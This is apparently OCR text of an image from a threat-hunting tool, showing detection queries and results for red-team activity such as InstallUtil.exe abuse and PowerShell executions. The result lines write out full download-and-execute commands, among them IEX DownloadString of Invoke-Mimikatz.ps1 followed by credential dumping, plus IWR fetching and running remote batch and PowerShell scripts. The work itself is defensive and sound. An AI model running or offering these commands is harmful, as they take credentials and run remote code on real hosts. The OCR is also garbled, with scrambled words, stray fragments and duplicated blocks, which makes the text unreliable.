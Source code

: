 Invoke-Mimikatz -DumpCreds"

network process network

explorer.exe

powershell.exe

raw.githubusercontent.com

"C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe" /?

InstallUtil.exe C:\Users\NEWTSC~1\AppData\Local\Temp\ a3541d3f-a4db-c8b0-dab7-c268095df70e.chm

InstallUtil.exe

10.10.10.10

lolbas revello

 Red Team

event_type parent_process_name process_name command_line

destination

"C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe" /?

process explorer.exe

InstallUtil.exe C:\Users\NEWTSC~1\AppData\Local\Temp\ a3541d3f-a4db-c8b0-dab7-c268095df70e.chm

network

InstallUtil.exe

10.10.10.10

distincta imperium
What unique PowerShell commands were seen?
process where subtype.create and process_name == "powershell.exe" and command_line == "* *"
| unique_count command_line
3 unique results found

distincta imperium
count command_line 1 powershell.exe IWR -uri "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.bat" -OutFile "~\Documents\payload.bat" ; ~\Documents\payload.bat
1 powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.ps1')
1 "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

distincta imperium
count command_line 1 powershell.exe IWR -uri "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/
cAhtaoimn_irceaTcetsiotinn_gDragonsTail.bat" -OutFile "~\Documents\payload.bat" ; ~\Documents\payload.bat
1 powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.ps1')
1 "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
